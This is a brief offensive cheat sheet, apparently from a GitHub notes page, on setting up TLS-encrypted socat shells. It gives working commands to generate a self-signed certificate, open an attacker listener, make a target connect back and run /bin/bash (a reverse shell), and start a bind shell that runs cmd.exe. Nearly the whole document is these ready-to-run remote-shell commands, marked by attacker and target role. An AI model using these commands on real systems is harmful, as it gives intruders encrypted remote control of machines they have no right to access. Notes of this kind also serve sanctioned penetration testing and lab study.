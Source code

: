 <h4>socat encrypted shells</jh4>

**GENERATE CERT**

**create cert: (attacker)**

`openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`

**merge 2 certs: (attacker)**

```
cat shell.key shell.crt > shell.pem
```

**setup listener(attacker)**

```
socat OPENSSL-LISTEN:<lport>,cert=shell.pem,verify=0 -
```
OR
```
socat OPENSSL-LISTEN:<lport>,cert=shell.pem,verify=0 FILE:`tty`,raw,echo=0
```

<h4>CONNECT (reverse)</h4>

**connect back: (target)**

```
socat OPENSSL:<lhost:lport>,verify=0 EXEC:/bin/bash
```
OR

target to linux:

```
socat OPENSSL:<lhost:lport>,verify=0 EXEC:”bash -li”,pty,stderr,sigint,setsid,sane
```

**CONNECT** (bind)

target:

`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`

attacker:

```
 socat OPENSSL:<rhost:rport>,verify=0 -
```